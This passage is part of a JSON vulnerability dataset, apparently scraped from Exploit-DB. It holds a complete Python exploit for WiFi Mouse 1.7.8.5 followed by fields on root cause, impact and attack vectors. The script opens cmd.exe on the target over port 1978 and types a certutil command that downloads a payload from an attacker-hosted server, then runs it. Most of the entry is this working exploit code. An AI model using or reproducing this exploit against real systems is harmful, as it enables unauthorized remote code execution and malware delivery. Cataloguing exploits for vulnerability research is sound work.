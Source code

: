 ```
       "content": "# WiFi Mouse 1.7.8.5 - Remote Code Execution(v2)\n\n#### EDB-ID:\n\n###### 50972\n\n#### CVE:\n\n###### N/A\n\n---\n\n**EDB Verified:**\n\n#### Author:\n\n###### [RedHatAugust](/?author=11639)\n\n#### Type:\n\n###### [remote](/?type=remote)\n\n---\n\n#### Platform:\n\n###### [Windows](/?platform=windows)\n\n#### Date:\n\n###### 2022-07-01\n\n---\n\n**Vulnerable App:**\n\n```\n# Exploit Title: WiFi Mouse 1.7.8.5 - Remote Code Execution\n# Date: 25-02-2021\n# Author: H4rk3nz0\n# Vendor Homepage: http://necta.us/\n# Software Link: http://wifimouse.necta.us/#download\n# Version: 1.7.8.5\n# Tested on: Windows Enterprise Build 17763\n\n# Python 3 port done by RedHatAugust\n# Original exploit: https://www.exploit-db.com/exploits/49601\n# Tested on: Windows 10 Pro Build 15063\n\n# Desktop Server software used by mobile app has PIN option which does not to prevent command input.\n# Connection response will be 'needpassword' which is only interpreted by mobile app and prompts for PIN input.\n\n#!/usr/bin/env python3\n\nfrom socket import socket, AF_INET, SOCK_STREAM\nfrom time import sleep\nimport sys\nimport string\n\ntarget = socket(AF_INET, SOCK_STREAM)\nport = 1978\n\ntry:\n\trhost = sys.argv[1]\n\tlhost = sys.argv[2]\n\tpayload = sys.argv[3]\nexcept:\n\tprint(\"USAGE: python \" + sys.argv[0]+ \" <target-ip> <local-http-server-ip> <payload-name>\")\n\texit()\n\n\ncharacters={\n\t\"A\":\"41\",\"B\":\"42\",\"C\":\"43\",\"D\":\"44\",\"E\":\"45\",\"F\":\"46\",\"G\":\"47\",\"H\":\"48\",\"I\":\"49\",\"J\":\"4a\",\"K\":\"4b\",\"L\":\"4c\",\"M\":\"4d\",\"N\":\"4e\",\n\t\"O\":\"4f\",\"P\":\"50\",\"Q\":\"51\",\"R\":\"52\",\"S\":\"53\",\"T\":\"54\",\"U\":\"55\",\"V\":\"56\",\"W\":\"57\",\"X\":\"58\",\"Y\":\"59\",\"Z\":\"5a\",\n\t\"a\":\"61\",\"b\":\"62\",\"c\":\"63\",\"d\":\"64\",\"e\":\"65\",\"f\":\"66\",\"g\":\"67\",\"h\":\"68\",\"i\":\"69\",\"j\":\"6a\",\"k\":\"6b\",\"l\":\"6c\",\"m\":\"6d\",\"n\":\"6e\",\n\t\"o\":\"6f\",\"p\":\"70\",\"q\":\"71\",\"r\":\"72\",\"s\":\"73\",\"t\":\"74\",\"u\":\"75\",\"v\":\"76\",\"w\":\"77\",\"x\":\"78\",\"y\":\"79\",\"z\":\"7a\",\n\t\"1\":\"31\",\"2\":\"32\",\"3\":\"33\",\"4\":\"34\",\"5\":\"35\",\"6\":\"36\",\"7\":\"37\",\"8\":\"38\",\"9\":\"39\",\"0\":\"30\",\n\t\" \":\"20\",\"+\":\"2b\",\"=\":\"3d\",\"/\":\"2f\",\"_\":\"5f\",\"<\":\"3c\",\n\t\">\":\"3e\",\"[\":\"5b\",\"]\":\"5d\",\"!\":\"21\",\"@\":\"40\",\"#\":\"23\",\"$\":\"24\",\"%\":\"25\",\"^\":\"5e\",\"&\":\"26\",\"*\":\"2a\",\n\t\"(\":\"28\",\")\":\"29\",\"-\":\"2d\",\"'\":\"27\",'\"':\"22\",\":\":\"3a\",\";\":\"3b\",\"?\":\"3f\",\"`\":\"60\",\"~\":\"7e\",\n\t\"\\\\\":\"5c\",\"|\":\"7c\",\"{\":\"7b\",\"}\":\"7d\",\",\":\"2c\",\".\":\"2e\"}\n\n\ndef openCMD():\n\ttarget.sendto(bytes.fromhex(\"6f70656e66696c65202f432f57696e646f77732f53797374656d33322f636d642e6578650a\"), (rhost,port)) # openfile /C/Windows/System32/cmd.exe\n\ndef SendString(string):\n\tfor char in string:\n\t\ttarget.sendto(bytes.fromhex(\"7574663820\" + characters[char] + \"0a\"),(rhost,port)) # Sends Character hex with packet padding\n\t\tsleep(0.03)\n\ndef SendReturn():\n\ttarget.sendto(bytes.fromhex(\"6b657920203352544e\"),(rhost,port)) # 'key 3RTN' - Similar to 'Remote Mouse' mobile app\n\tsleep(0.5)\n\ndef exploit():\n\tprint(\"[+] 3..2..1..\")\n\tsleep(2)\n\topenCMD()\n\tprint(\"[+] *Super fast hacker typing*\")\n\tsleep(1)\n\tSendString(\"certutil.exe -urlcache -f http://\" + lhost + \"/\" + payload + \" C:\\\\Windows\\\\Temp\\\\\" + payload)\n\tSendReturn()\n\tprint(\"[+] Retrieving payload\")\n\tsleep(3)\n\tSendString(\"C:\\\\Windows\\\\Temp\\\\\" + payload)\n\tSendReturn()\n\tprint(\"[+] Done! Check Your Listener?\")\n\n\n\ndef main():\n\ttarget.connect((rhost,port))\n\texploit()\n\ttarget.close()\n\texit()\n\nif __name__==\"__main__\":\n\tmain()\n\n```",
      "root_cause": "The application does not properly handle the PIN option, allowing direct command input even when the PIN is set.",
      "vulnerabilities": [
        "Authentication bypass",
        "Remote code execution"
      ],
      "impact": "Remote code execution on the target machine.",
       "attack_vectors": [
        "Network"
      ],
       "attacker_capabilities": "Attacker must be able to connect to the target system's port 1978. The attacker also needs to host the payload on an HTTP server.",
      "additional_info": "This exploit uses `certutil.exe` to download a payload and execute it. The exploit is a python script."
    },
    {
      "CVE": "CVE-2022-3218",
```